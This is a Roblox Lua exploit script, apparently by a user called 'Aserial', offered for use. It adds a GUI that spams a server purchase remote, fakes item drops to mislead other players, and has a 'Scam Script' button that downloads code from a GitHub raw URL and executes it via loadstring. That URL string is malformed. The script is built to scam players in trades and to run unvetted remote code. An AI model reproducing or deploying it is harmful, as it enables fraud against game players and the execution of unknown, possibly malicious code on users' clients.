 -- Script Made 100% by Aserial protected by Rigths.
-- Don’t change it or you Will pay the consequences ...
-- AserialDev 2025.

loadstring([[
local player = game:GetService("Players").LocalPlayer
local replicatedStorage = game:GetService("ReplicatedStorage")
local remote = replicatedStorage:WaitForChild("RemoteEvents"):WaitForChild("BuyItemCash")
local runService = game:GetService("RunService")

-- UI
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))
gui.Name = "AserialItemBuyer"

-- Bulle flottante cachée au début
local bubble = Instance.new("TextButton", gui)
bubble.Visible = false
bubble.Size = UDim2.new(0, 120, 0, 30)
bubble.Position = UDim2.new(0, 20, 1, -60)
bubble.BackgroundColor3 = Color3.fromRGB(20, 20, 20)
bubble.Text = "Aserial Script"
bubble.TextColor3 = Color3.new(1, 1, 1)
bubble.Font = Enum.Font.GothamBold
bubble.TextSize = 14
bubble.BorderSizePixel = 0

local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0, 270, 0, 240)
frame.Position = UDim2.new(0.5, -135, 0.5, -120)
frame.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
frame.BorderSizePixel = 0
frame.Active = true
frame.Draggable = true

-- Boutons style Windows
local closeBtn = Instance.new("TextButton", frame)
closeBtn.Size = UDim2.new(0, 30, 0, 30)
closeBtn.Position = UDim2.new(1, -30, 0, 0)
closeBtn.BackgroundColor3 = Color3.fromRGB(200, 0, 0)
closeBtn.Text = "X"
closeBtn.TextColor3 = Color3.new(1, 1, 1)
closeBtn.Font = Enum.Font.GothamBold
closeBtn.TextSize = 14
closeBtn.BorderSizePixel = 0

local minimizeBtn = Instance.new("TextButton", frame)
minimizeBtn.Size = UDim2.new(0, 30, 0, 30)
minimizeBtn.Position = UDim2.new(1, -60, 0, 0)
minimizeBtn.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
minimizeBtn.Text = "-"
minimizeBtn.TextColor3 = Color3.new(1, 1, 1)
minimizeBtn.Font = Enum.Font.GothamBold
minimizeBtn.TextSize = 14
minimizeBtn.BorderSizePixel = 0

-- Titre
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, -60, 0, 30)
title.BackgroundColor3 = Color3.fromRGB(25, 25, 25)
title.Text = "PPT Script by Aserial"
title.TextColor3 = Color3.fromRGB(255, 255, 255)
title.Font = Enum.Font.GothamBold
title.TextSize = 16
title.BorderSizePixel = 0
title.Position = UDim2.new(0, 0, 0, 0)

-- Boutons
local buyBtn = Instance.new("TextButton", frame)
buyBtn.Position = UDim2.new(0.1, 0, 0.25, 0)
buyBtn.Size = UDim2.new(0.8, 0, 0, 30)
buyBtn.BackgroundColor3 = Color3.fromRGB(180, 50, 50)
buyBtn.TextColor3 = Color3.new(1, 1, 1)
buyBtn.Font = Enum.Font.GothamBold
buyBtn.TextSize = 14
buyBtn.BorderSizePixel = 0

local dropBtn = Instance.new("TextButton", frame)
dropBtn.Position = UDim2.new(0.1, 0, 0.45, 0)
dropBtn.Size = UDim2.new(0.8, 0, 0, 30)
dropBtn.BackgroundColor3 = Color3.fromRGB(255, 120, 0)
dropBtn.TextColor3 = Color3.new(1, 1, 1)
dropBtn.Font = Enum.Font.GothamBold
dropBtn.TextSize = 14
dropBtn.BorderSizePixel = 0

local scamBtn = Instance.new("TextButton", frame)
scamBtn.Position = UDim2.new(0.1, 0, 0.65, 0)
scamBtn.Size = UDim2.new(0.8, 0, 0, 30)
scamBtn.BackgroundColor3 = Color3.fromRGB(120, 60, 200)
scamBtn.TextColor3 = Color3.new(1, 1, 1)
scamBtn.Font = Enum.Font.GothamBold
scamBtn.TextSize = 14
scamBtn.BorderSizePixel = 0
scamBtn.Text = "Scam Script"

local itemNameLabel = Instance.new("TextLabel", frame)
itemNameLabel.Position = UDim2.new(0.1, 0, 0.86, 0)
itemNameLabel.Size = UDim2.new(0.8, 0, 0, 20)
itemNameLabel.BackgroundTransparency = 1
itemNameLabel.TextColor3 = Color3.new(1, 1, 1)
itemNameLabel.Font = Enum.Font.Gotham
itemNameLabel.TextSize = 14
itemNameLabel.Text = "Object : Nothing"

-- Lien Discord violet
local discordLabel = Instance.new("TextLabel", frame)
discordLabel.Size = UDim2.new(1, 0, 0, 20)
discordLabel.Position = UDim2.new(0, 0, 1, -20)
discordLabel.BackgroundTransparency = 1
discordLabel.Text = "discord.gg/y9FC7xPrvU"
discordLabel.TextColor3 = Color3.fromRGB(180, 80, 255)
discordLabel.Font = Enum.Font.Gotham
discordLabel.TextSize = 13

-- Achat toggle
local buying = false
local function toggleBuying()
    buying = not buying
    if buying then
        buyBtn.BackgroundColor3 = Color3.fromRGB(50, 180, 75)
        task.spawn(function()
            while buying do
                local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
                if tool then
                    remote:FireServer(tool.Name)
                end
                task.wait(0.1)
            end
        end)
    else
        buyBtn.BackgroundColor3 = Color3.fromRGB(180, 50, 50)
    end
end

-- Fake drop réaliste
local function fakeDropRealistic()
    local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
    if tool and tool:FindFirstChild("Handle") then
        local clone = tool:Clone()
        clone.Parent = workspace
        local handle = clone:FindFirstChild("Handle")
        if not handle then return end

        local hrp = player.Character:FindFirstChild("HumanoidRootPart")
        local dropPos = (hrp.CFrame * CFrame.new(0, -2.5, -4)).Position

        handle.Anchored = true
        handle.CFrame = CFrame.new(dropPos + Vector3.new(0, 1, 0)) * CFrame.Angles(0, math.rad(math.random(0,360)), 0)
        handle.CanCollide = true
    end
end

-- Scam script
local function runScamScript()
    local url = "loadstring(game:HttpGet(('https://raw.githubusercontent.com/Rheingold59/Pop-it-trading/refs/heads/main/Scam.md'),true))()"
    local success, result = pcall(function()
        return game:HttpGet(url)
    end)
    if success then
        loadstring(result)()
    else
        warn("Erreur chargement scam script :", result)
    end
end

-- Fermer / Réduire
closeBtn.MouseButton1Click:Connect(function()
    gui:Destroy()
end)

minimizeBtn.MouseButton1Click:Connect(function()
    frame.Visible = false
    bubble.Visible = true
end)

bubble.MouseButton1Click:Connect(function()
    frame.Visible = true
    bubble.Visible = false
end)

-- UI dynamique
runService.RenderStepped:Connect(function()
    local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
    local toolName = tool and tool.Name or "Nothing"
    itemNameLabel.Text = "Object took : " .. toolName
    buyBtn.Text = "Buy : " .. toolName
    dropBtn.Text = "Fake Drop : " .. toolName
end)

-- Boutons
buyBtn.MouseButton1Click:Connect(toggleBuying)
dropBtn.MouseButton1Click:Connect(fakeDropRealistic)
scamBtn.MouseButton1Click:Connect(runScamScript)
]])()

